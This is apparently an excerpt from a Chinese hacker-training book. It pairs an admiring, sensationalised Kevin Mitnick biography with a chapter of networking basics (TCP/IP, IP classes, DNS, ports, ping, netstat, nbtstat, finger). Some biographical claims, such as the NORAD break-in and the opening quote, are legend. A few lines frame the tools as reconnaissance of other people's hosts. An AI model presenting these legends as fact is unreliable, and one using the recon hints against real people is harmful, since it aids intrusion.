> 巡游五角大楼，登录克里姆林宫，进出全球所有计算机系统，摧垮全球金融秩序和重建新的世界格局，谁也阻挡不了我们的进攻，我们才是世界的主宰。  
> ——凯文·米特尼克（Kevin Mitnick）

在所有的黑客中，被公认的世界头号电脑黑客只有一个，那就是凯文·米特尼克。凯文·米特尼克是一个极富传奇色彩甚至神话色彩的人物，是众多怀有叛逆和自由精神的黑客偶像和精神领袖。在他15岁的时候，仅凭一台电脑和一部调制解调器就闯入了北美空中防务指挥部的计算机系统主机。美国联邦调查局将他列为头号通缉犯，并为他伤透了脑筋。

凯文·米特尼克于1964年出生在美国西海岸的洛杉矶。米特尼克只有3岁的时候，他的父母就离异了。他跟着母亲生活，很快就学会了自立，但父母的离异在米特尼克幼小的心灵深处造成了很大的创伤，使他性格内向、沉默寡言。米特尼克的母亲没有多少文化，对儿童的教育缺乏经验，但这丝毫没有妨碍米特尼克超人智力的发育。事实上，在很小的时候，米特尼克就显示了他在日后成为美国头号电脑杀手应具备的天才。

米特尼克小时候喜欢玩“滑铁卢的拿破仑”游戏。这是当时很流行的游戏，根据很多专家的推算，最快需要78步能使拿破仑杀出重围到达目的地——巴黎。令人吃惊的是，年仅4岁米特尼克只用了一星期的时间就达到了与专家一致的水平——用78步便带领拿破仑冲出了包围圈，让拿破仑逃过了滑铁卢的灭顶之灾。随后，米特尼克便将拿破仑扔进了储物箱里，并淡淡地对母亲说：“已经不能再快了”。

20世纪70年代，13岁的米特尼克上小学，开始喜欢上了业余无线电活动。在与世界各地无线电爱好者联络的时候，他第一次领略到了跨越空间的乐趣。当米特尼克刚刚接触到电脑时，就已经明白他这一生将与电脑密不可分了。电脑语言所蕴涵的数理逻辑知识与他的思维方式仿佛是天作之合，他编写的程序简洁、实用，所表现的美感令电脑教员为之倾倒。网络空间最让米特尼克着迷。在那里，米特尼克暂时摆脱了他所厌恶的现实生活，发泄着他对现实世界的不满。

当时，美国已经开始建立一些社区电脑网络。米特尼克所在的社区网络中，家庭电脑不仅和企业、大学相通，而且和政府部门相连。当然，这些“电脑领地”之门常常都有密码封锁。这时，一个异乎寻常的大胆计划在米特尼克头脑中形成了。他通过打工赚了一笔钱后，就买了一台性能不错的电脑。此后，他以远远超出其年龄的耐心和毅力，试图破译美国高级军事密码。不久，年仅15岁的米特尼克闯入了“北美空中防务指挥系统”的计算机主机内，他和另外一些朋友翻遍了美国指向前苏联及其盟国的所有核弹头的数据资料，然后又悄无声息地溜了出来。这确实是黑客历史上一次经典之作。

1983年，好莱坞曾以此为蓝本，拍摄了电影《战争游戏》，演绎了一个同样的故事（在电影中，一个少年黑客几乎引发了第三次世界大战）。在破解密码的过程中，米特尼克一开始就碰到了极为棘手的问题。毕竟事关整个北美的战略安全，这套系统的密码设置非常复杂。米特尼克最初设计的跟踪解码程序很快就败下阵来。但是米特尼克喜欢挑战，他经过努力，在两个月时间里升级了跟踪解码程序后，终于找到了北美空中防务指挥部的“后门”。这正是整套系统的薄弱环节，也是软件的设计者留下来以方便自己进入系统的地方。这样，米特尼克就顺顺当当地“大摇大摆”地进入了这个系统。

他向朋友们吹嘘：“我知道美国所有指向天空，指向俄国及其盟友的核导弹的名称、数量和位置！”同伴们不相信，他就打开电脑，让他们开开眼界。小伙伴们终于相信米特尼克说的是真的，一个个都目瞪口呆，对他当然都佩服得五体投地。对此，米特尼克心理上非常满足。

闯入“北美空中防务指挥系统”之后，米特尼克信心大增。不久，他又破译了美国著名的“太平洋电话公司”在南加利福尼亚州通讯网络的“改户密码”。他开始随意更改这家公司的电脑用户，特别是知名人士的电话号码和通讯地址。一时间，这些用户被折腾得哭笑不得，太平洋公司也不得不连连道歉。

幸好，这时的米特尼克已经对太平洋公司没有什么兴趣了。他对联邦调查局的电脑网络产生了浓厚兴趣。一天，米特尼克发现特工们正在调查一名“电脑黑客”，便饶有兴趣地偷阅起调查资料来。看着看着，他大吃一惊：被调查者竟然是他自己！米特尼克立即施展浑身解数，破译了联邦调查局的“中央电脑系统”的密码，开始每天认认真真地查阅“案情进展情况的报告”。不久，米特尼克就对他们不屑一顾起来，他嘲笑这些特工人员漫无边际的搜索，并恶作剧式地将几个负责调查的特工的档案调出，将他们全部涂改成了十足的罪犯。

凭借最新式的“电脑网络信息跟踪机”，特工人员还是将米特尼克捕获了。当人们得知这名弄得联邦特工狼狈不堪的黑客竟是一名不满16岁的孩子时，无不惊愕万分。惊叹于米特尼克不寻常的天才，许多善良的、并不了解真相的人们纷纷要求法院对他从轻发落。也许是由于网络犯罪还很新鲜，法律上鲜有先例，法院顺从了“民意”，仅仅将米特尼克关进了“少年犯管教所”，于是米特尼克成了世界上第一名“电脑网络少年犯”。

很快，米特尼克就被假释了。不过，他并未改邪归正、“重新做人”。电脑网络对他的诱惑太大了。这次他把目光投向了一些信誉不错的大公司。在很短的时间里，他连续进入了美国5家大公司的网络，不断发出让人愤怒的错误账单，把一些重要合同涂改得面目全非。

他甚至决定向全美工业机密电脑中枢——全美数据装配系统发动进攻。

1988年他再次被执法当局逮捕，这次的原因是，DEC指控他从公司网络上窃取了价值100万美元的软件并造成了400万美元损失。这次，他甚至未被允许保释。心有余悸的警察当局认为，他只要拥有键盘就会对社会构成威胁。米特尼克被判处一年徒刑。出狱后，他试图找一份安定的工作。然而，联邦政府认为他是对社会的一个威胁，他受到严密监视。每一个对他的电脑技艺感兴趣的雇主，最后都因他的监护官的警告而拒绝了他的申请。这也许是一件十分遗憾的事，它甚至在一定意义上剥夺了米特尼克弃恶从善的可能。

1993年，一直对米特尼克心存不安的联邦调查局设下圈套，故意诱使米特尼克重操故技，以便再次把他抓进监狱。而在这方面，米特尼克从来就不需要太多诱惑，他轻易就上钩，非法侵入了一家电话网。但头号黑客毕竟不凡，他打入了联邦调查局的内部网，发现了他们设下的圈套，然后在逮捕令发出之前就跑了。联邦调查局立即在全国范围对米特尼克进行通缉。其后两年中，联邦调查局不仅未能发现米特尼克的踪影，而且甚至有报道说：米特尼克在逃跑过程中，设法控制了加州的一个电话系统，这样他就可以窃听追踪他的警探的行踪。

在此段时间中，米特尼克还成功地入侵了美国摩托罗拉、美国的NOVELL、芬兰的诺基亚、美国的SUN MICROSYSTEMS等高科技公司的计算机，盗走了各式程序和数据。根据这些公司的报案资料，FBI推算的实际损害总额达至4亿美元。

1994年圣诞节，米特尼克向圣迭戈超级计算机中心发动了一次攻击，《纽约时报》称这一行动“将整个互联网置于一种危险的境地”。这一次攻击的对象中还包括一个因为米特尼克而成名的人物，即后来人称“美国最出色的电脑安全专家之一”、在该中心工作的日裔计算机专家下村勉。米特尼克从下村勉手中盗取数据和文件，令下村勉极为震怒。他下决心帮助联邦调查局把米特尼克缉拿归案。于是两位超级高手在电脑领域里展开了一场龙争虎斗。

先是米特尼克入侵了下村家里的计算机，盗窃出对付“黑客”的软件，并留言声称：“还是我高明。”当时，下村正在距离米特尼克1000多公里外的一个滑雪地度假，忽然他随身携带的警报器响了起来。下村立即就明白：有人闯入他的“电脑住宅”。按照美国的有关法律，这是一名违法犯罪的“电脑窃贼”或者“电脑流氓”。主人有权对这种不速之客进行跟踪、追赶，直至抓获后交给警察部门。个性倔强的下村当即决定，非要查个水落石出不可！

可是，狡猾的米特尼克还是很快就发现有人在追捕自己。狂妄自大的他竟然用电子邮件给下村留下了这样一句话：“老子的技术天下第一，你想抓我，简直是白日做梦，痴心妄想！”下村被激怒了，他决心比一比谁更高明。不久下村就准确地捕获了米特尼克无线电话发出的指令。此后，他锲而不舍，顽强追捕这个飘忽不定、时隐时现、变幻莫测的波长。自然，米特尼克也并非“等闲之辈”。他设置了重重障碍、种种陷阱。可是，经验丰富的下村都将它们一一铲除或绕过。

终于在1995年情人节之际，下村勘查发现了米特尼克的行踪——下村终于找到了那个波长真正的源头：北卡罗来纳州罗利市的电话交换中心。下村带领联邦调查局特工人员赶到罗利市后，小心翼翼地搜索，“包围圈”渐渐缩小了。最后，已经缩小到一片布满低级公寓的街区。“罪犯肯定就在这里！”下村兴奋地说。于是，他们开始了24小时不间断监视。最后，他终于确定了这名老练对手的住所。特工人员联络当地警察局，很快就确认该所主人是“犯有前科”的米特尼克。

这回特工人员没有马上闯进米特尼克家的门，而是先在周围设伏，等米特尼克出门上班后，再进入他家。下村在米特尼克的电脑上取得了全部确凿的作案证据。此后，他们静静地恭候米特尼克。米特尼克回家开门后，一时间惊得张口结舌、目瞪口呆。联想丰富的他很快就明白是怎么一回事了。他悲哀地说：“我知道，这回我真的完了。”这名美国超级电脑黑客终于落网了。

1995年2月，米特尼克终于被送上了法庭。在法庭上，带着手铐的米特尼克向第一次见面并出庭作证的下村勉，由衷地说：“你好啊下村，我钦佩你的技术。”

这位著名的网络黑客终于被判刑，他将在铁窗中度过相当的一段时间。令人玩味的是，心有余悸的三位美国联邦法官一致否决了米特尼克的假释要求，按法官的话说：“如果让米特尼克假释出狱，无异于放虎归山，整个美国，甚至整个世界都要乱了。”

在狱中，米特尼克自己改造了一台不知从哪儿弄到手的AFFM收音机，并试着联网。为此，米特尼克被从普通牢房转到了另一栋隔离牢房，实行24小时关押。

2000年1月21日，凯文·米特尼克获释，他的出狱又一度成为人们关注的焦点。米特尼克被捕时身体较胖，但从出狱时的电视报道来看，由于长期的狱中生活让他身体比以前略瘦，但显得更加精神。

米特尼克出狱后表示自己准备先上大学重新学习计算机。但是从目前的情况看来，米特尼克的这一愿望还远远无法实现。因为在今后的3年的监外观察期间，他将被禁止使用计算机，甚至包括手机和调制解调器，当然更禁止使用互联网。如果要和友人叙旧或是与其他黑客进行技术交流，只能依赖以往的书信方式来交流。这对于米特尼克来说，无疑是最大的痛苦。从高中时代开始，米特尼克就沉醉于“黑客”行为而不能自拔，过着被追捕和逃亡的地下生活，除了计算机外其他事情几乎一无所知。而在现代社会中无论你从事什么工作，理所当然的是要大量地使用计算机的。不允许使用计算机，就如同束住了米特尼克的手和脚，米特尼克注定会在精神痛苦中煎熬。

黑客行为就像吸毒一样，一旦染上就难以戒除。对于像米特尼克这样一个在因特网上来去自由的黑客高手来说更是如此。米特尼克的律师曾在法庭上为他的当事人申诉道：“他的行为就像是毒品中毒。按当事人的理解是无论如何也改变不了的。”正因如此，人们对出狱后的米特尼克将何去何从倍加关注。

米特尼克还依然年轻，米特尼克的故事还远远没有完。

## 第二章 进化心经

### 黑客必备基础知识

“万丈高楼平地起”，没有一个人生来就是黑客，听某知名黑客讲了一课或是看了某本黑客秘籍，一夜之间就变成了黑客，那是天方夜谭。要成为一个黑客必须从头开始，从基础开始。每个黑客都是从最基础的网络及编程知识学起的，有了最基本的知识再来学习黑客技术才能事半功倍。本章将介绍一些相关的基础知识，但篇幅有限，只能作些导向性的介绍，大家如果想真正掌握这些知识，请找相关书籍学习。

### 第一节 网络基础知识

#### 一、什么是网络

什么是网络？这是大家都熟悉的一个名字，但是大多数人可能说不清网络的概念。凡是处于不同地理位置的多台具有独立功能的计算机，通过某种通信介质连接起来，并以某种硬件和软件（网络协议、网络操作系统等）进行管理并实现网络资源通信和共享的系统，称为计算机网络系统。通信介质可以是有线的，例如双绞线、同轴电缆、光纤等；也可以是无线的，例如红外光波、超短波、卫星微波等。网络根据通信距离和地理范围可以分为局域网和广域网。

- **局域网**：通信一般被限制在中等规模的地理区域内，能够依靠具有从中等到较高数据率的物理通信信道，而且这种信道具有始终一致的低误码率；局域网是专用的，由单一组织机构所使用的网络。
- **广域网**：广域网是一种连接两个以上地理位置并且类型不同的局域网的网络。它们通常都采用点到点连接，比局域网能提供更好更快的传输。Internet就是全球最大的广域网，在英语中“Inter”的含义是“交互的”，“net”是指“网络”。简单地讲，Internet是一个计算机交互网络，是一个全球性的巨大的计算机网络体系，它把全球数万个计算机网络、数千万台主机连接起来，包含了难以计数的信息资源，向全世界提供信息服务。

#### 二、网络结构和协议

**网络体系结构**：由于网络各结点之间的联系可能是很复杂的，因此，在制定协议时，一般是把复杂成分分解成一些简单的成分，再将它们复合起来。最常用的复合方式是层次方式，即上一层可以调用下一层，而与再下一层不发生关系。通信协议的分层是这样规定的：把用户应用程序作为最高层，把物理通信线路作为最低层，将其间的协议处理分为若干层，规定每层处理的任务，也规定每层的接口标准。

世界各大计算机厂商都推出各自的网络体系结构。为了统一标准，国际标准化组织ISO于1978年提出“开放系统互连参考模型”，即著名的OSI（Open System Interconnection）。它将计算机网络体系结构的通信协议规定为物理层、数据链路层、网络层、传输层、会话层、表示层、应用层等七层，受到计算机界和通信业的极大关注。通过十多年的发展和推进，已成为各种计算机网络结构的靠拢标准。

#### 三、网络协议

计算机网络中实现通信必须有一些约定，即通信协议，对速率、传输代码、代码结构、传输控制步骤、出错控制等制定标准，这些标准就是网络协议。网络协议通常分为不同层次进行开发，每一层分别负责不同的通信功能。术语“网络协议”用于指示一组联合作用的单个协议。目前在使用的网络协议组有：TCP/IP、IPX/SPX、NETBIOS等，其中TCP/IP协议组最成熟、最流行，现在的国际网络几乎全都是基于TCP/IP协议的。

#### 四、TCP/IP协议

TCP/IP（Transmission Control Protocol）传输控制协议 / Internet Protocol（网际协议）已成为计算机网络的一套工业标准协议。Internet网之所以能将广阔范围内各种各样网络系统的计算机互联起来，主要是因为应用了“统一天下”的TCP/IP协议。在应用TCP/IP协议的网络环境中，为了唯一地确定一台主机的位置，必须为TCP/IP协议指定三个参数，即IP地址、子网掩码和网关地址。

通过上层软件完成“统一”网络物理地址的方法，这种方法使用统一的地址格式，在统一管理下分配给主机。TCP/IP实际上是一组协议，在协议族中包括上百个互为关联的协议，不同功能的协议分布在不同的协议层。几个常用协议如下：Telnet（Remote Login）远程登录服务，FTP（File Transfer Protocol）远程文件传输协议，SMTP（Simple Mail Transfer Protocol）简单邮件传输协议，UDP（User Datagram Protocol）用户数据报协议，SNMP（Simple Network Management Protocol）简单网络管理协议，ICMP（Internet Control Message Protocol）网间控制报文协议，POP（Post Office Protocol）邮局协议等。

#### 五、常见网络设备

网络是由多台计算机互联而成的。网络互联时，必须解决如下问题：在物理上如何把两种网络连接起来，一种网络如何与另一种网络实现互访与通信，如何解决它们之间协议方面的差别，如何处理速率与带宽的差别。解决这些问题、承担协调转换机制的部件就是中继器、网桥、路由器和网关等。

- **中继器**：传输介质超过了网段长度后，可用中继器延伸网络的距离，对弱信号予以再生放大。
- **集线器**：以星型拓扑结构将通信线路集中在一起的设备，相当于总线，工作在物理层，是局域网中应用最广的连接设备。市场上常见有10M、100M等速率的Hub。
- **交换器**：交换式以太网设备。依据数据包的目的地址将以太包从源端口送至目的端，向不同的目的端口发送以太包时，就可以同时传送这些以太包，达到提高网络实际吞吐量的效果。交换器可以同时建立多个传输路径，所以在应用联结多台服务器的网段上可以收到明显的效果。主要用于联Hub、Server或分散式主干网。
- **路由器**：在多个网络和介质之间实现网络互联的一种设备。主要功能：分组转发，提供最佳路径，将不同硬件技术的网络互联起来，提供隔离，划分子网。路由器的每一端口都是一个单独的子网。支持备用网络路径，支持网状网络拓扑；交换机、网桥要求无环路拓扑。互联各种局域网和广域网，适用于大型交换网络。使用Router后，形形色色的通信子网融为一体，形成了一个更大范围的网络。
- **网关**：用来互联完全不同的网络。主要功能：把一种协议变成另一种协议，把一种数据格式变成另一种数据格式，把一种速率变成另一种速率，以求两者的统一。提供中转中间接口。
- **传输介质**：网络传输介质是指一般用于传送网络数字、模拟信息的专用线路。常见的传输介质有电话线、同轴电缆、双绞线、光纤等，具体的选用要根据传输速率的要求和投资预算。一般干线用光纤，支线用同轴电缆、双绞线或电话线等。

#### 六、IP地址

什么是IP地址：Internet网是由不同物理网络互联而成，不同网络之间实现计算机的相互通信必须有相应的地址标识，这个地址标识称为IP地址。IP地址（Internet Protocol Address）是主机在Internet上的唯一标志，它把每一台主机在Internet上给予了唯一的定位。Internet上的一台计算机可以有多个IP地址，但几台计算机不能共享一个IP地址。IP地址是一个32位的二进制数。

IP地址是Internet主机的一种数字型标识，一般用小数点隔开的十进制数表示，如121.255.255.154。IP地址由网络标识（netid）和主机标识（hostid）两部分组成，网络标识用来区分Internet上互联的各个网络，主机标识用来区分同一网络上的不同计算机。

- **A类**：IP地址前8位表示网络号，后24位表示主机号。有效范围约为 `1.0.0.1 ~ 126.255.255.254`，适用于大型网络。
- **B类**：IP地址前16位表示网络号，后16位表示主机号。有效范围约为 `128.0.0.1 ~ 191.255.255.254`，适用于中型网络。
- **C类**：IP地址前24位表示网络号，后8位表示主机号。有效范围约为 `192.0.0.1 ~ 222.255.255.254`，适用于小型网络。

**广播地址**：TCP/IP规定，主机号全为“1”的网络地址用于广播，称为广播地址。可在同一时间向网上所有主机发送报文。包含有效网络号和主机号的广播称为直接广播（directed broadcasting）；32位全为“1”的网间网地址用于本网广播，称为有限广播地址（limited broadcast address）。各位全为“0”的网络号解释为“本”网络。

**回送地址**：A类网络地址127是保留地址，用于网络软件测试，称为回送地址。程序一旦使用回送地址发送数据，协议软件立即返回，不进行任何网络传输。

## 黑客必备基础知识（进化终）

规定：一、含网络号 127 的分组不能出现在任何网络上；二、主机和网关不能为该地址广播任何寻径信息。由以上规定可以看出，主机号全“0”全“1”的地址在 TCP/IP 协议中有特殊含义，不能用作一台主机的有效地址。127.0.0.1 为本机地址。

### 子网掩码

子网掩码是一个 32 位二进制地址，用于快速确定 IP 地址的哪部分代表网络号，哪部分代表主机号。判断两个 IP 地址是否属于同一网络，就产生了子网掩码的概念。子网掩码按 IP 地址的格式给出。A、B、C 类 IP 地址的默认子网掩码如下：

- A：255.0.0.0  
- B：255.255.0.0  
- C：255.255.255.0

如 10.68.89.1 是 A 类 IP 地址，所以默认子网掩码为 255.0.0.0，分别转化为二进制进行与运算后，得出网络号为 10。再如 202.30.152.3 和 202.30.152.80 为 C 类 IP 地址，默认子网掩码为 255.255.255.0，进行与运算后得出二者网络号相同，说明两主机位于同一网络。

子网掩码的另一功能是用来划分子网。在实际应用中，经常遇到网络号不够的问题，需要把某类网络划分出多个子网，采用的方法就是将主机号标识部分的一些二进制位划分出来用来标识子网。

### 固定 IP 与动态 IP

网上的主机的 IP 地址有固定 IP 与动态 IP 之分。对于一个提供 Internet 服务的机构服务器（如 WWW、FTP、E-mail 等），通常要对外公布一个固定 IP 地址以方便访问，这些机构常通过专线接入，IP 是固定静态的。而对大多数拨号用户来说，由于其上网时间和空间的离散性，为每个用户分配固定 IP 地址是对 IP 资源的极大浪费。因此接入 ISP 的 DHCP 服务器时会自动获得一个不固定的 IP 地址。所谓动态，是指拨号用户任意两次连接时 IP 地址可能不同，但在每次连接期间 IP 地址保持不变。

### 查询 IP 地址

查看自己的 IP 地址可在 Win98“运行”中输入“winipcfg”，会跳出一个界面，如图 1。

其中详细显示了 IP 地址、网关、子网掩码等详细信息。除此之外，你还可以在 DOS 窗下输入：`ipconfig` 命令来查看本机 IP 地址。如果要查别人主机的 IP 地址，则要视具体情况而定；如果对方有域名服务器，可通过 DNS 查询获取其 IP 地址；如果对方是个人用户，通常需要与对方通信后借助监听分析 IP 数据包来获取其 IP 地址。

## 五、域名和域名系统

### 什么是域名

由于 IP 地址是一串数字，没有任何意义，对人们来说很难记忆。为了方便人们访问，Internet 引进了域名服务系统 DNS（Domain Name System），从而产生了域名。域名就是用含有一定意义的名字来标识 Internet 上的主机的名字地址。域名采用层次结构，每一层构成一个子域名，子域名之间用圆点隔开，一般结构形式为“区域层次名·机构名·国别名”，比如：www.tongji.edu.cn，TONGJI 表示同济大学，EDU 表示国家教育机构部门，CN 表示中国。域名可以通过向网络信息中心及其授权机构申请合法得到。国际互联网信息中心是 InterNIC，中国的国家网络信息中心是 CNNIC。

Internet 协会规定机构性域名有七类，分别为：COM（商业机构组织）、EDU（教育机构组织）、INT（国际机构组织）、GOV（政府机构组织）、MIL（军事机构组织）、NET（网络机构组织）、ORG（非营利机构组织）。

地理性国别域名，对于不同的国家有不同的名称：CN 中国、US 美国、JP 日本、FR 法国、AU 澳大利亚、CA 加拿大、UK 英国。

### 域名系统（DNS）

域名系统（Domain Name System）是指在 Internet 上查询域名或 IP 地址的目录服务系统。在接收到请求时，它可将另一台主机的域名翻译为 IP 地址，或反之。大部分域名系统都维护着一个大型的数据库，它描述了域名与 IP 地址的对应关系，并且这个数据库被定期地更新。全球有几十个顶级 DNS 服务器，如果这些服务器瘫痪，访问网站就只能用 IP 地址了。IP 与域名之间可以通过域名系统（DNS）服务器进行互换解析。说得形象点：域名就是计算机网上的名字，而 IP 地址就是计算机网上的门牌号码。在实际使用中，域名仍然需要被域名服务器（DNS）翻译为 IP 地址，才可以真正开始访问。要注意的是：域名和 IP 并不是一一对应的，一个 IP 可以对应多个域名，许多大型网站为了不使某一台服务器访问量过载，往往使用负载均衡技术使一个域名对应多个 IP。网上有许多可以进行 IP 和域名相互解析的工具。

### IP、域名与地理位置

虽然 IP、域名地址与计算机所处的地理位置没有什么必然联系，但由于 IP、域名地址的使用必须向网络信息中心（NIC）申请和登记，所以如果已经知道某一主机的 IP 或域名，要查询此主机的所在地，可以逐级向 NIC 查询，最后一般可以追查到所在城市。但这样查询比较麻烦，现在网上经过许多人的共同努力已经整理出了一份比较详细的“IP 分配表数据”，从而可以不向 NIC 查询、直接获得其所在地。并有人据此开发了相关软件，如“追捕”，如图 2，只要输入“域名或 IP”后按“追捕”，就可以知道其所在地了。

## 六、常见网络操作系统

操作系统是计算机的灵魂，没有操作系统的计算机什么也干不了，更不用说联网了。目前的操作系统大致有 Unix、Windows、Linux、OS/2、Novell、Netware、Macintosh 等几大类别。

Unix 是目前世界上使用比较广泛的操作系统之一，尤其在服务器领域，Unix 是一个多用户、多任务、交互式的分时操作系统。

Windows 是由鼎鼎大名的微软公司开发的一系列影响极大的操作系统。Windows 以其友好的界面、操作的方便吸引了极大多数的个人用户和一部分专业用户。Windows 从 3.X 开始发展到现在的 2003，系统的功能更加完善，使用更加人性化。

Linux 系统是 Unix 的变种，具有 Unix 的绝大多数特性，又是免费的，而且源代码也是开放的，使得很多编程爱好者对它不断地改进、完善，被认为是“最优秀”的系统。

OS/2 原来是由 IBM 提出的，但是后来没有很好的市场开发，使得它过时了，Windows 的“视窗”概念是由 OS/2 提出的。

Macintosh 是苹果电脑专用的操作系统。Macintosh 是美国苹果公司（Apple Computer Inc.）于 1984 年推出的 PC 机，首先利用了图形用户接口（GUI）、窗口（Windows）和图标（icons），并用鼠标器来打开程序。此后微软公司推出了 Microsoft Windows 系统，这些都给 PC 机带来一场革命。

Novell 和 Netware 是 DOS 时代流行的系统，现用于一些金融等系统，个人用户用得不是很多。

许多新手朋友喜欢视窗系统，因为这套系统具备直观的操作界面和多种应用软件，而黑客们虽然平时也用视窗系统，但他们还往往更精通于 Unix/Linux，因为 Unix/Linux 具有异常强大的开放功能，提供 GCC 的 C/C++ 编译器、Perl 解释器及多个脚本解释器等等，具有无限的开发空间。如果说视窗系统是“有什么用什么”，那 Unix/Linux 就是“想用什么就开发什么”。

## 七、常见 Internet 服务

随着 Internet 的深入发展，Internet 提供的服务也越来越多，其中最常见的服务有以下几种。从用户角度看，主要包括以下服务：

##### 远程登录服务

用 Telnet 可以登录到远程服务器上并进行信息访问，可访问所有的数据库、联机游戏、对话服务以及电子公告牌，如同与被访问的计算机在同一房间中工作一样。

##### 文件传输服务（FTP）

文件传输服务是 Internet 上使用非常广泛的一种服务。这个服务使 Internet 用户可以把文件从一个主机拷贝到另一个主机上，因而为用户提供了极大的方便和收益。FTP 通常也表示用户执行这个协议所使用的应用程序。现在常用的 FTP 软件有 CuteFTP 等等。

### WEB 服务

现在大家用得最多的应该是 WWW 服务，通过这个服务，只要用鼠标单击链接点，就可以到达想去的地方。WEB 服务使用的是超文本链接，它不仅能查看文字，还可以欣赏图片、音乐、动画。

##### 电子邮件服务（E-mail）

通过电子邮件，可以与 Internet 上的任何人交换信息。电子邮件的快速、高效、方便而且价格低廉，使得这项服务受到人们的普遍欢迎。

##### 网络中继聊天（IRC）

IRC 是英文“Internet Relay Chat”的缩写，是一种在世界上、尤其是在国外非常流行的聊天方式之一。简单地说，就是使用特定的客户端软件连接到 IRC 服务器，然后以“客户端→服务器→客户端”的方式，使得双方用户能够交换信息。

### finger 服务

finger 服务是互联网上古老的服务之一，用于提供站点及用户的基本信息。一般通过 finger 服务，你可以查询到站点上的在线用户清单及其他一些有用的信息。

## 八、常用端口

### 端口（port）

我们这里所指的端口不是物理意义上的端口，而是特指 TCP/IP 协议中的端口，是逻辑意义上的端口，可以理解为是计算机对外通信的窗口。

一台主机的端口可以有 65536 个之多。端口是通过端口号来标记的，端口号只有整数，范围是从 0 到 65535。端口有什么用呢？我们知道一台服务器可以向外提供多种服务，比如一台服务器可以同时是 WEB 服务器，也可以是 FTP 服务器，同时它也可以是邮件服务器。为什么一台服务器可以同时提供那么多的服务呢？其中一个很重要的方面，就是各种服务采用不同的端口分别提供不同的服务，比如：WEB 采用 80 端口，FTP 采用 21 端口等。这样，通过不同端口，计算机与外界进行互不干扰的通信。

### 端口分类

按对应的协议类型，端口有两种：TCP 端口和 UDP 端口。由于 TCP 和 UDP 两个协议是独立的，因此各自的端口号也相互独立，比如 TCP 有 235 端口，UDP 也可以有 235 端口，两者并不冲突。端口还可以分为周知端口和动态端口。

周知端口（Well Known Ports）是众所周知的端口号，范围从 0 到 1023，这些端口与公认的服务对应，其中 80 端口分配给 WWW 服务，21 端口分配给 FTP 服务等。动态端口（Dynamic Ports）的范围是从 1024 到 65535。之所以称为动态端口，是因为它一般不固定分配某种服务，而是动态分配。动态分配是指当一个系统进程或应用程序进程需要网络通信时，它向主机申请一个端口。常用端口一览表：（见附录一）。

## 九、常用网络命令

### PING

Ping 命令通过向计算机发送 Internet 控制信息协议（ICMP）回应报文并监听回应报文的返回，以校验与远程计算机或本地计算机的连接情况。对于每个发送报文，Ping 最多等待 1 秒并打印发送和接收报文的数量，比较每个接收报文和发送报文，以校验其有效性。默认情况下，发送四个回应报文，每个报文包含 32 字节的数据（周期性的大写字母序列）。

Ping 命令的格式：

```bash
Ping [-t] [-a] [-n count] [-l size] [-f] [-i TTL] [-v TOS] [-r count] [-s count] [[-j host-list] | [-k host-list]] [-w timeout] destination-list
```

##### Tracert

路由分析诊断命令 Tracert。该诊断实用程序通过向目的地发送具有不同生存时间的 ICMP 回应报文，以确定至目的地的路由。也就是说，Tracert 命令可以用来跟踪一个报文从一台计算机到另一台计算机所走的路径。比如你在上网时，想知道从你的计算机如何进入主页，可在 MS-DOS 方式下输入命令 `Tracert www.sohu.com` 并回车。

```text
Tracing route to pagegrpl.sohu.com [61.135.150.72]
over a maximum of 30 hops.

1   19 ms   14 ms   16 ms   61.174.89.33
2   16 ms   17 ms   17 ms   61.174.89.1
.....
```

左边的数字是该路由经过的计算机数目和顺序。“*”表示往返时间太长，Tracert 将这个时间“忘记了”；“19ms”是向经过的第一个计算机（61.174.89.33）发送报文的往返时间，单位为毫秒。由于每个报文每次往返时间不一样，Tracert 将显示三次往返时间。在时间信息之后，是计算机的名称信息，是便于人们阅读的域名格式，也有 IP 地址格式。它可以让你知道，你的计算机与目的计算机在网络上距离有多远，要经过几步才能到达。

##### Ipconfig

Ipconfig 是调试计算机网络的常用命令，通常大家使用它显示计算机中网络适配器的 IP 地址、子网掩码及默认网关。其实这只是 Ipconfig 的不带参数用法，而它的带参数用法在网络应用中也是相当不错的。参数 `/all` 显示所有网络适配器（网卡、拨号连接等）的完整 TCP/IP 配置信息。

##### Netstat

查看网络连接状态命令。命令格式：

```text
NETSTAT [-a] [-e] [-n] [-s] [-p proto] [-r] [interval]
```

- `-a` 显示所有连接和侦听端口。  
- `-n` 以数字格式显示地址和端口号，可以看到和你连接的计算机的 IP 地址和所连接的端口。  
- `-r` 显示路由表的内容。

##### Nbtstat

该诊断命令使用 NBT（TCP/IP 上的 NetBIOS）显示协议统计和当前 TCP/IP 连接。该命令只有在安装了 TCP/IP 协议之后才可用。命令格式：

```text
nbtstat [-a remotename] [-A IP address] [-c] [-n] [-R] [-r] [-S] [-s] [interval]
```

- `-a remotename` 使用远程计算机的名称列出其名称表。  
- `-A IP address` 使用远程计算机的 IP 地址并列出名称表。  
- `-c` 给定每个名称的 IP 地址并列出 NetBIOS 名称缓存的内容。  
- `-n` 列出本地 NetBIOS 名称。“已注册”表明该名称已被广播（Bnode）或者 WINS（其他节点类型）注册。  
- `-R` 清除 NetBIOS 名称缓存中的所有名称后，重新装入 Lmhosts 文件。

##### FTP 命令

通过 FTP 可直接进行文字和非文字信息的双向传送，即用户可在 Internet 上从运行 FTP 服务的计算机上下载或上传文件。在 MS-DOS 方式下，输入 FTP 回车，就启动了 FTP，并进入 FTP 的命令提示符方式。用 `open hostIP` 命令连接，输入 `USERNAME` 和 `PASSWD` 登录系统，通过 `cd` 命令逐层进入下载文件所在的目录，然后用 `lcd` 命令确定保存文件的本地目录，最后通过 `get` 命令下载所需文件。任务完成后，输入 `quit` 命令断开与远程计算机的连接，退出 FTP 方式。

##### Telnet 命令

Telnet 用于 Internet 的远程登录。它可以使用户坐在已上网电脑前，通过网络进入另一台已上网电脑，使它们互相连通。命令方式为：`telnet [对方IP] [端口]`。

##### Nslookup

域名查询命令，命令格式：`nslookup [IP地址/域名]`。在符号“>`”后面输入要查询的 IP 地址或域名并回车即可。如果要退出该命令，输入 `exit` 并回车即可。

```text
$ nslook
Default Server: name.tlc.com.cn
Address: 192.168.1.99
>
```

##### Finger

finger 命令的功能是查询用户的信息，只在 UNIX 下使用，通常会显示系统中某个用户的用户名、主目录、停滞时间、登录时间、登录 shell 等信息。如果要查询远程机上的用户信息，需要在用户名后面接“@主机名”，采用“用户名@主机名”的格式，不过要查询的网络主机需要运行 finger 守护进程。命令格式：`finger [选项] [使用者] [用户@主机]`。各参数含义如下：

- `-s` 显示用户的注册名、实际姓名、终端名称、写状态、停滞时间、登录时间等信息。  
